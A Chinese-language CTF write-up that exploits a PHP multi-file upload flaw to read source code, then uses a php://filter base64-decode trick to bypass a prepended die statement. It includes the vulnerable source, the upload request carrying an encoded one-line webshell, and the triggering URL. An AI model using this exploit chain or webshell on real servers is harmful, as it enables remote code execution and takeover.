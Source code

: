 title: 三个白帽之火币网2W大挑战
date: 2016-07-14 23:42:27
tags: CTF
categories: H-blog
---

乌云峰会那两天放的题，没人撸出来，今晚又开题了
<!--more-->

根据上次获得的情报和这次放出的两个tips:
> 1.多文件上传，php源码对数组键值处理错误导致安全漏洞 
> 2.base64解码导致字符丢失

开始前我就开始搜了，然后搜到了一个`CVE-2012-1172`，根据这CVE找到一篇blog: <https://nealpoole.com/blog/2011/10/directory-traversal-via-php-multi-file-uploads/>

根据这篇博客中的代码，还有之前得到的情报，可以猜到大概就是该漏洞

我们来分析一下，我用phpstudy，在服务器上搭了一个5.2.17的php+apache服务, 测试代码如下：
```
//upload.php
<?php
error_reporting(-1);
ini_set("display_errors", 1);
print_r($_FILES);
?>
<form action="" method="POST" enctype="multipart/form-data" >
<input type="file" name="pictures1">
<input type="file" name="pictures2">
<input type="file" name="pictures3">
<input type="submit" value="submit">
```

然后根据博客中的描述，发现有一下两种情况:
![baimao](http://qn.lazysheep.cc/img/baimaowj1.png)
和
![baimao](http://qn.lazysheep.cc/img/baimaowj2.png)

上图中还带了一个正常情况下`$_FILES`的键值

在乌云峰会当时RR菊苣日题的情况能分析出此题大致的流程: 通过文件读取之类的函数获取上传缓存文件的内容 -> 进行base64编码 -> 存入数据库 -> 当访问相应的链接时 -> 请求数据库，获取该文件base64编码的内容 -> base64解码后开头加上字符串`<?php die;?>` -> 写入`upload`目录下 -> 读取该文件

然后也有大致的日题思路: 通过文件上传这类的漏洞读取源码 -> 代码审计，根据提示是base64解码这里有某些bug，通过该bug可以把干掉死亡之`die`

根据上述的流程和思路，第一步大致很清晰了，通过某些方法，使`tmp_name`可控，则可以读取任意文件base64编码后存入数据库，根据该思路猜测上述CVE大致的利用方法：
![baimao](http://qn.lazysheep.cc/img/baimaowj3.png)

PS: 文件名和缓存文件名是必须的两个参数

一般我们获取文件名和缓冲文件名是使用`$_FILES['xxx']['name']; $_FILES['xxx']['tmp_name']`
而该题是多文件上传，所以可猜测是使用`$_FILES['xxx']['name'][$key]; $_FILES['xxx']['tmp_name'][$key]`
当`$key = "[name"` 时, `$_FILES['xxx']['tmp_name'][$key]`是可控的

而第二步猜测在比赛前却没搜到答案

-----

开始做题，第一步和我猜想的几乎一样，但是在回家上电梯的时候，我却想到一个搅屎的方法，因为该题上传的每一个文件，都有一个对应的链接，比如: `index.php?download=803&filename=upload/evilddog2`, 在该链接点击之前，`upload`目录下是不存在我上传的`evilddog2`文件，当我点击个链接后，才会存在该文件，同时该链接失效.

根据该流程，我可以写一个脚本，去访问别人上传的文件，会导致: 1.以为自己没上传成功(其实成功了，在upload目录下会产生该文件). 2. 我可以看别人的做题进度，思路之类的. 

比如，该题的第一份源码不是我自己日出来的，是我随便点了一个`ccc`的的文件出来的.

还是说说正规的思路吧:
![baimao](http://qn.lazysheep.cc/img/baimaowj4.png)

右边这个链接`index.php?download=803&filename=upload/evilddog2`点开后就是`index.php`的源码了

```
<?php
error_reporting(E_ALL^E_NOTICE^E_WARNING);
include 'init.php';

$nowtime = time();
if(is_array($_FILES) && !empty($_FILES))
{
	//var_dump($_FILES);
	foreach($_FILES["homework"]["name"] as $key => $name) 
	{
		if (!empty($_FILES["homework"]["name"][$key]))
		{	
			$filename = htmlspecialchars($_FILES["homework"]["name"][$key]);
			$tmpFile = $_FILES["homework"]["tmp_name"][$key];
			//$size =  $_FILES["homework"]["size"][$key];
		//	echo $tmpFile;
			$content = base64_encode(file_get_contents($tmpFile));
			$echoCentent[] = $content;
			if(!empty($content))
			{
				$sql = "insert into homework(`filename`,`content`,`time`) values('".$filename."','".$content."','".$nowtime."')";
				if(!mysql_query($sql))
				{
					die('hello hacker!');
				}
			}
			
		}
	}
}

if(isset($_GET['download']) and isset($_GET['filename']))
{
	$download = addslashes(htmlspecialchars_decode($_GET['download']));
	$filename = addslashes(htmlspecialchars_decode($_GET['filename']));
	if(file_exists($filename))
	{
		unlink($filename);
	}
	$sql = "select content from homework where id='$download'";
	$result = mysql_query($sql);
	while($row = mysql_fetch_array($result))
	{
		
		$devalContents = "<?php die; ?>\n"; 
		$devalContents .= base64_decode($row['content']);
		file_put_contents("$filename",$devalContents);
		$filename = str_replace("upload/",'',$filename);
		header("location:upload/".urlencode($filename));
	}
	$sql = "delete from homework where id='$download';";
	if(!mysql_query($sql))
	{
		die("hello hacker!");
	}
	
}
//PS:只贴PHP部分
?>
```

上面就是该题的主要的源码了，然后就是进入下一步，关键代码:
```
$devalContents = "<?php die; ?>\n"; 
$devalContents .= base64_decode($row['content']);
file_put_contents("$filename",$devalContents);
$filename = str_replace("upload/",'',$filename);
header("location:upload/".urlencode($filename));
```

搜到了一个链接<http://www.2cto.com/Article/201303/192410.html>

我们发现`$filename`是可控参数，所以可以利用伪协议:`php://filter/write=convert.base64-decode/resource=upload/ddog.php`

也就是说，把`$devalContents`变量的内容进行base64解码后写入`upload/ddog.php`文件.

这里有一个地方需要注意，会出现Incorrect padding错误，在php中不会提示，以下是python运行结果:
```
>>> p
'<?php die; ?>\n'

>>> payload
'<?php phpinfo();?>'

>>> x1 = base64.b64encode(payload)

>>> base64.b64decode(p+x1)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/base64.py", line 78, in b64decode
    raise TypeError(msg)
TypeError: Incorrect padding
Incorrect padding
```

所以我们需要填充字符

```
>>> base64.b64decode(p+"s"+x1)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/base64.py", line 78, in b64decode
    raise TypeError(msg)
TypeError: Incorrect padding
Incorrect padding

>>> base64.b64decode(p+"ss"+x1)
'\xa6\x1a]\x89\xeb,<?php phpinfo();?>'

>>> x1
'PD9waHAgcGhwaW5mbygpOz8+'
```

如果我们把`ssPD9waHAgcGhwaW5mbygpOz8+`作为文件内容
`php://filter/write=convert.base64-decode/resource=upload/ddog.php`作为文件名
则将会在`upload/ddog.php`中写入`\xa6\x1a]\x89\xeb,<?php phpinfo();?>`

成功bypass死亡之`die`

上传内容为:
```
Content-Disposition: form-data; name="homework[]"; filename="evilddog2"
Content-Type: application/x-php

ssPD9waHAgJF9HRVRbYV0oJF9QT1NUW2Z1Y2tkZG9nXSk7Pz4
```

访问链接: `/index.php?download=711&filename=php://filter/write=convert.base64-decode/resource=upload/fuckevilddog.php`

连上蚁剑, GetFlag!
![baimao](http://qn.lazysheep.cc/img/baimaowj5.png)


